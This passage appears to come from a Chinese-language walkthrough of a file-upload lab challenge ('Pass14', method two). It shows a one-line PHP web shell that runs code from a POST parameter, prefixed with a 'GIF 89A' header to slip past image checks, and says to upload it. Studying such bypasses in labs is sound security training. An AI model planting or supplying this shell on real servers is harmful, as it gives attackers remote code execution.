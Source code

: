

### 方法二

+ 编写脚本文件<code>FourteenSecondMethod.php</code>，在一句话木马前加上<code>GIF 89A</code>

~~~ shell
GIF 89A
<?php @eval($_POST['FourteenSecond']); ?>
~~~

![Pass14_4](./img/Pass14_4.PNG)



+ 上传脚本文件<code>FourteenSecondMethod.php</code>

![Pass14_12](./img/Pass14_12.PNG)
